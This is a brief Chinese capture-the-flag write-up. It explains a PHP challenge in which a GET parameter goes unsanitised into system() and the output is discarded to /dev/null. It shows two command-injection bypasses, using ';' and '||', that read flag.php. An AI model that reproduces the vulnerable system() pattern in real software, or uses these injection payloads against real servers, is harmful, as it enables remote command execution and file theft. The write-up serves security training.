



```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
} 
```

分析源码

\>/dev/null 2>&1

表示将标准输出和标准错误输出都重定向到/dev/null

及无返回值


### 第一种

利用 ; 绕过

```
?c=ls;
```



```
?c=cat flag.php;
```




### 第二种

利用||绕过

```
?c=cat flag.php||
```

